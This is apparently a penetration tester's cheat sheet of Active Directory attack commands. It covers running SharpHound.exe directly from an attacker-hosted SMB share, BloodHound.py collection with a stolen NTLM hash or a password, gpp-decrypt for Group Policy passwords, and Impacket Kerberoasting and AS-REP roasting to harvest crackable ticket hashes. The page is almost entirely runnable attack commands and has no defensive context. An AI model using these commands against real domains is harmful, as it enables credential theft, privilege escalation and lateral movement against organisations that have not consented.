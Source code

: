 # Active Directory

## Bloodhound

```
impacket-smbserver share . -smb2support -username df -password df
net use \\10.10.14.9\share /u:df df
cd \\10.10.14.9\share\
.\SharpHound.exe
```

## Bloodhound-Python

{% embed url="https://github.com/fox-it/BloodHound.py" %}

You can use the python script in replacement of executing sharphound. Run `neo4j console` and `bloodhound`. Drag and drop the `.json` files to bloodhound, then mark a user/users you've compromised and use the `Analysis` tab to see where your next pivoting target is

### w/ hash

```python
python3 bloodhound.py -ns nameserver/dc ip 10.11.1.20 -d domain.local -u Administrator --hashes ntlm -c All
```

### w/ password

```python
python3 bloodhound.py -ns <DC IP> -d <domain> -u <username> -p <password> -c All
```

## Decrypting GPP Password

```
gpp-decrypt asdlkfjOLKAjlksdf/DLkjslkjf;lkj234lkasd0+
```

## Impacket Stuff

### Kerberoasting

```
impacket-GetUserSPNs test.local/john:password123 -dc-ip 10.10.10.1 -request
```

### AS-REP Roasting

```
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.10 domain.local/ -usersfile users.lst
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.10 domain.local/ -usersfile users.lst | grep krb5asrep
```

## Listing directories in PowerShell

```
Get-ChildItem . -Force
dir -Force
ls -Force
gci -Force
```
